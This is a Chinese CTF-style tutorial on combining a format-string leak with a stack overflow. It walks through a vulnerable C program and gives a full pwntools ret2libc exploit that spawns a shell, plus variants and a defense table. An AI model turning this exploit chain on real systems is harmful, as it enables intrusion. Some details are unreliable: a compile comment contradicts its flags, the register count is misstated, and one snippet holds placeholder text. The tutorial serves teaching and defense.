


## 案例五：Format String + Stack Overflow 组合利用

在实际的二进制利用场景中，单一漏洞往往不足以完成完整的攻击链。本案例展示如何将**格式化字符串漏洞**（信息泄露）与**栈溢出漏洞**（控制流劫持）组合使用，形成一条完整且高效的利用链。这种组合在 CTF 竞赛和真实漏洞利用中极为常见——格式化字符串负责"侦察"，栈溢出负责"攻坚"。

### 攻击原理总览



### 漏洞程序分析

```c
// vuln5.c
#include <stdio.h>

int secret = 0;

void vuln() {
    char buffer[256];
    printf("Enter name: ");
    read(0, buffer, 256);
    printf(buffer);      // 格式化字符串漏洞：用户输入直接作为 printf 的格式串
    printf("\nEnter greeting: ");
    gets(buffer);        // 栈溢出漏洞：gets 不检查输入长度
}

int main() {
    vuln();
    return 0;
}
```

#### 编译命令

```bash
# 开启栈保护（Canary）和 NX，模拟真实环境
gcc -o vuln5 vuln5.c -fno-stack-protector -no-pie -z execstack
# 若需要开启 Canary（更贴近实战）：
gcc -o vuln5 vuln5.c -no-pie
# 开启全部保护（PIE + Canary + NX）：
gcc -o vuln5 vuln5.c
```

> **注意**：本案例假设 Canary 已开启但未启用 PIE，这样可以清晰展示完整的攻击流程。在实际 CTF 题目中，保护机制的组合多种多样，需要灵活应对。

#### 两个漏洞的定位

| 漏洞类型 | 位置 | 触发方式 | 危害 |
|---------|------|---------|------|
| 格式化字符串 | `printf(buffer)` | 输入 `%p`、`%x` 等格式符 | 信息泄露（栈内容、libc 地址） |
| 栈溢出 | `gets(buffer)` | 输入超长字符串 | 覆盖返回地址，劫持控制流 |

单独利用格式化字符串漏洞可以泄露敏感信息，但很难直接获得代码执行（除非配合写入 `%n`）。单独利用栈溢出可以劫持控制流，但在开启 Canary 的情况下会被检测到。两者组合后，格式化字符串先"偷"到 Canary 和 libc 地址，栈溢出再精确构造 payload，一举突破所有防护。

### 漏洞原理详解

#### 格式化字符串漏洞原理

`printf` 函数的正确用法是 `printf("%s", buffer)`，格式串是固定的，用户输入只作为参数。但如果写成 `printf(buffer)`，用户输入就变成了格式串本身，可以包含任意格式说明符。

**x86-64 下的参数传递规则：**

前 5 个参数通过寄存器传递（`rdi`、`rsi`、`rdx`、`rcx`、`r8`、`r9`），第 6 个及之后的参数通过栈传递。在 `printf(buffer)` 中，`buffer` 本身是第一个参数（在 `rdi` 中），所以格式说明符从栈上偏移 6 开始读取栈帧数据。

```text
栈布局（从高地址到低地址）：
+---------------------------+
| ...                       |
| 栈上的其他局部变量          |  ← %6$p 读取这里
| buffer[248..255]          |  ← %7$p 读取这里
| buffer[240..247]          |  ← %8$p
| ...                       |
| saved RBP                 |  ← 偏移取决于栈帧布局
| return address            |
| ...                       |
+---------------------------+
```

**常用格式说明符：**

| 格式符 | 作用 | 用途 |
|--------|------|------|
| `%p` | 以十六进制打印指针值 | 泄露栈上的地址 |
| `%x` | 以十六进制打印整数（32位） | 32 位程序泄露 |
| `%s` | 打印字符串（解引用指针） | 读取任意地址内容 |
| `%n` | 将已打印的字符数写入地址 | 任意地址写入 |
| `%[N]$p` | 直接引用第 N 个参数 | 精确定位栈上数据 |
| `%[N]$n` | 向第 N 个参数指向的地址写入 | 精确写入 |

#### 栈溢出与 Canary 的对抗

现代编译器在栈帧中插入 Canary 值（位于局部变量和 saved RBP 之间），函数返回前检查 Canary 是否被修改。要利用栈溢出，必须先知道 Canary 的原始值。

```text
栈帧布局（有 Canary）：
+---------------------------+
| buffer[256]               |  ← gets() 可以溢出到这里
+---------------------------+
| Canary (8 bytes)          |  ← 需要保持原值
+---------------------------+
| saved RBP                 |
+---------------------------+
| return address            |  ← 目标：覆盖为 system()
+---------------------------+
```

### 完整利用过程

#### 利用流程图



#### 第一步：泄露 Canary 和 libc 地址

格式化字符串漏洞的关键是找到 Canary 和返回地址在栈上的偏移。这需要通过动态调试确定。

**定位栈偏移的方法：**

1. 输入特殊标记如 `AAAA%p.%p.%p...`，观察输出中 `0x41414141`（或 `0x4141414141414141` 在 64 位下）出现的位置
2. 使用 GDB 在 `printf` 处下断点，观察栈内容
3. 使用 pwntools 的 `FmtStr` 工具自动探测

```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

p = process('./vuln5')
elf = ELF('./vuln5')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# 第一次交互：利用格式化字符串泄露信息
# 格式串：%11$p 泄露 Canary，%15$p 泄露返回地址附近的 libc 地址
# 具体偏移需要通过 GDB 调试确定，以下为假设值
p.sendafter(b'name: ', b'%11$p.%15$p')
p.recvuntil(b'0x')
canary = int(p.recv(16), 16)
log.success(f"Canary: {hex(canary)}")

p.recvuntil(b'0x')
ret_addr = int(p.recv(16), 16)
log.success(f"Return addr: {hex(ret_addr)}")
```

**如何确定 `%11$p` 和 `%15$p` 的偏移？**

在 GDB 中执行：

```bash
gdb ./vuln5
b *vuln+XX        # 在 printf 处下断点
r
# 输入 AAAA%6$p.%7$p.%8$p...%20$p
# 观察输出，找到 Canary 特征值（通常以 0x00 结尾）
# 和 libc 地址（通常在 0x7f 开头的范围内）
```

**GDB 调试时寻找关键值的技巧：**

| 目标 | 特征 | 寻找方法 |
|------|------|---------|
| Canary | 以 `0x00` 结尾的随机值 | `p/x $fs:0x28`（x86-64 TLS 中的 Canary） |
| libc 地址 | `0x7f??????????` 范围 | 在输出中筛选以 `7f` 开头的值 |
| 栈地址 | `0x7ffe` 或 `0x7ffc` 开头 | 在输出中筛选 |
| 堆地址 | `0x55` 或 `0x56` 开头 | PIE 开启时的代码段地址 |

#### 第二步：计算 libc 基地址

```python
# 根据泄露的返回地址计算 libc 基地址
# 返回地址通常是 __libc_start_main + offset
# 具体偏移取决于 libc 版本，需要调试确认
offset = libc.symbols['__libc_start_main'] + 243  # 243 是常见的 ret 偏移
libc_base = ret_addr - offset

system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

log.success(f"libc base: {hex(libc_base)}")
log.success(f"system: {hex(system_addr)}")
log.success(f"/bin/sh: {hex(bin_sh_addr)}")
```

**如何确定 `__libc_start_main` 的偏移 243？**

```bash
# 方法一：GDB 调试
gdb ./vuln5
b *main              # 在 main 处断点
r
info frame           # 查看返回地址
# 记录返回地址，然后：
p/x 返回地址 - libc_base
# 差值就是偏移

# 方法二：使用 readelf
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep __libc_start_main
# 找到符号地址，在 GDB 中计算实际调用地址与符号地址的差

# 方法三：使用 one_gadget 工具获取直接跳转地址
one_gadget /lib/x86_64-linux-gnu/libc.so.6
# 如果找到合适的 one_gadget，可以跳过 system 调用
```

#### 第三步：构造 ROP 链并利用栈溢出

```python
# 第二步：利用栈溢出构造 ret2libc payload
# 使用 ROPgadget 查找 gadget
# ROPgadget --binary ./vuln5 | grep "pop rdi"
pop_rdi = 0x4012a3  # pop rdi; ret 的地址（需用 ROPgadget 实际查找）

# 构造 payload：
# [buffer 填充] + [canary] + [saved rbp] + [pop rdi] + [/bin/sh] + [system]
payload = b'A' * 264      # buffer(256) + padding 到 canary 的距离
payload += p64(canary)     # 保持 canary 原值不变
payload += p64(0)          # saved rbp（填 0 即可）
payload += p64(pop_rdi)    # gadget: pop rdi; ret
payload += p64(bin_sh_addr) # rdi = "/bin/sh"
payload += p64(system_addr) # 跳转到 system("/bin/sh")

p.sendafter(b'greeting: ', payload)
p.interactive()
```

**如何确定填充长度 264？**

```bash
# 方法一：GDB 观察
# 在 gets() 处下断点，查看 buffer 起始地址到 Canary 的距离
gdb ./vuln5
b *vuln+XX          # gets 调用处
r
# 输入少量 A，然后
info locals         # 查看局部变量地址
p &buffer           # 查看 buffer 地址
# 计算 buffer 到 Canary 的偏移

# 方法二：pattern 工具
# 用 pwntools 的 cyclic 生成唯一序列
python3 -c "from pwn import *; print(cyclic(300).decode())"
# 输入后查看 Canary 被覆盖的值，用 cyclic_find 定位偏移
```

### 完整 Exploit 脚本

```python
#!/usr/bin/env python3
"""
Format String + Stack Overflow 组合利用
适用环境：x86-64，Canary 开启，NX 开启，PIE 关闭
"""
from pwn import *

# ========== 环境配置 ==========
context.arch = 'amd64'
context.log_level = 'info'
context.terminal = ['tmux', 'splitw', '-h']

elf = ELF('./vuln5')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def exploit(io):
    # ========== 第一步：格式化字符串泄露 ==========
    log.info("Step 1: 利用格式化字符串泄露 Canary 和 libc 地址")

    # %11$p -> Canary（偏移需调试确认）
    # %15$p -> __libc_start_main+243（偏移需调试确认）
    io.sendafter(b'name: ', b'%11$p.%15$p')

    # 解析泄露的值
    io.recvuntil(b'0x')
    canary = int(io.recv(16), 16)
    io.recvuntil(b'0x')
    ret_addr = int(io.recv(16), 16)

    log.success(f"Canary     = {hex(canary)}")
    log.success(f"Return addr = {hex(ret_addr)}")

    # 校验 Canary 合法性（以 0x00 结尾）
    assert canary & 0xff == 0, f"Canary 校验失败: {hex(canary)}"

    # ========== 第二步：计算 libc 基地址 ==========
    log.info("Step 2: 计算 libc 基地址")

    libc_start_main_offset = libc.symbols['__libc_start_main'] + 243
    libc_base = ret_addr - libc_start_main_offset
    system_addr = libc_base + libc.symbols['system']
    bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

    log.success(f"libc base  = {hex(libc_base)}")
    log.success(f"system     = {hex(system_addr)}")
    log.success(f"/bin/sh    = {hex(bin_sh_addr)}")

    # ========== 第三步：栈溢出 ret2libc ==========
    log.info("Step 3: 构造 ROP payload 并利用栈溢出")

    # ROPgadget --binary ./vuln5 | grep "pop rdi"
    pop_rdi = 0x4012a3  # pop rdi; ret

    payload  = b'A' * 264          # 填充到 Canary
    payload += p64(canary)          # 保持 Canary
    payload += p64(0)               # saved rbp
    payload += p64(pop_rdi)         # gadget
    payload += p64(bin_sh_addr)     # arg: "/bin/sh"
    payload += p64(system_addr)     # call system

    io.sendafter(b'greeting: ', payload)
    io.interactive()

if __name__ == '__main__':
    # 本地调试
    io = process('./vuln5')
    exploit(io)
```

### 调试与验证

#### 使用 GDB 配合 pwntools 调试

```python
# 在 exploit 中插入断点
io = process('./vuln5')
gdb.attach(io, '''
    b *vuln+XX
    b *vuln+YY
    c
''')
```

#### 验证泄露值是否正确

```python
# 在计算 libc_base 后添加断言
# 方法一：检查 libc_base 的页对齐
assert libc_base & 0xfff == 0, f"libc base 未页对齐: {hex(libc_base)}"

# 方法二：检查地址范围
assert 0x7f0000000000 < libc_base < 0x800000000000, \
    f"libc base 不在合理范围: {hex(libc_base)}"
```

#### 常见错误排查

| 错误现象 | 可能原因 | 解决方法 |
|---------|---------|---------|
| 程序直接崩溃 | Canary 偏移错误 | 用 GDB 重新确认栈布局 |
| `*** stack smashing detected ***` | Canary 值泄露错误 | 检查 `%p` 的偏移编号 |
| 段错误但没报 Canary | ROP 链地址错误 | 用 ROPgadget 重新查找 gadget |
| 地址以 `0x00` 截断 | printf 遇到空字节 | 改用 `%p` 而非 `%x`，或分次泄露 |
| 偏移在不同机器上不同 | ASLR 或 libc 版本差异 | 用容器固定环境，或远程泄露 |

### 变种与进阶

#### 变种一：PIE 开启时的利用

当 PIE 开启时，代码段地址也是随机的，需要额外泄露一个代码段地址来计算 PIE 基地址：

```python
# 泄露栈上的返回地址（指向代码段）
# 偏移需要 GDB 调试确认
io.sendafter(b'name: ', b'%9$p')
io.recvuntil(b'0x')
code_addr = int(io.recv(12), 16)  # 注意 PIE 地址可能只有 48 位有效

pie_base = code_addr - elf.symbols['vuln'] - 某个偏移
pop_rdi = pie_base + 0x12a3  # 重新计算 gadget 地址
```

#### 变种二：Canary 泄露后分次溢出

如果一次 gets 只能溢出到 Canary 而无法覆盖返回地址，可以分两次：

1. 第一次：通过格式化字符串泄露 Canary
2. 第二次：溢出到 Canary（保持原值），同时覆盖后续的 RBP 和返回地址

```python
# 如果 buffer 到返回地址的距离太大，一次 gets 无法到达
# 可以尝试用 puts 或 write 的格式化字符串泄露更多栈信息
```

#### 变种三：利用 %n 进行任意写入

如果程序没有栈溢出但有格式化字符串漏洞，可以直接用 `%n` 写入 GOT 表：

```python
# 将 GOT 中的某个函数指针改为 system 地址
# 这需要精确控制写入的字节数，通常使用 pwntools 的 fmtstr_payload
from pwn import *

# 自动化格式化字符串写入
fmt_payload = fmtstr_payload(offset, {got_addr: system_addr})
io.sendafter(b'name: ', fmt_payload)
```

#### 使用 one_gadget 简化利用

```bash
# one_gadget 可以找到 libc 中直接执行 execve("/bin/sh", ...) 的地址
# 使用 one_gadget 可以省略 pop_rdi + /bin/sh + system 的 ROP 链
one_gadget /lib/x86_64-linux-gnu/libc.so.6
# 输出示例：
# 0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
# constraints: rsp & 0xf == 0
# 0x4f432 execve("/bin/sh", rsp+0x40, environ)
# constraints: [rsp+0x40] == NULL
```

```python
one_gadget_addr = libc_base + 0x4f3d5
# 直接覆盖返回地址为 one_gadget
payload  = b'A' * 264
payload += p64(canary)
payload += p64(0)
payload += p64(one_gadget_addr)  # 跳过 ROP 链
```

### 防御措施

| 防御手段 | 原理 | 绕过难度 |
|---------|------|---------|
| `printf("%s", buffer)` | 固定格式串，用户输入只作参数 | 无法绕过 |
| `-Wformat -Werror=format-security` | 编译器警告格式化字符串风险 | 阻止编译 |
| `gets()` → `fgets()` | 限制输入长度 | 需要其他溢出点 |
| Stack Canary | 检测栈溢出 | 需要信息泄露绕过 |
| ASLR + PIE | 地址随机化 | 需要信息泄露计算基址 |
| FORTIFY_SOURCE | 检测格式化字符串参数数量 | 编译时检查 |
| Shadow Stack | 硬件级返回地址保护 | 需要更高级的利用技术 |

### 本案例关键知识点

1. **信息泄露是利用的前提**：在现代保护机制下，单纯的栈溢出已不够用，需要先获取运行时信息
2. **格式化字符串是万能侦察工具**：可以泄露栈、堆、代码段、libc 的地址，甚至可以读取任意内存
3. **组合利用的威力**：信息泄露 + 控制流劫持的组合可以突破大多数用户态保护
4. **调试能力是核心**：偏移的确定完全依赖 GDB 调试，脚本化和自动化是提升效率的关键
5. **环境一致性**：libc 版本、编译选项、ASLR 状态都会影响利用的成功率，调试时务必保持环境一致
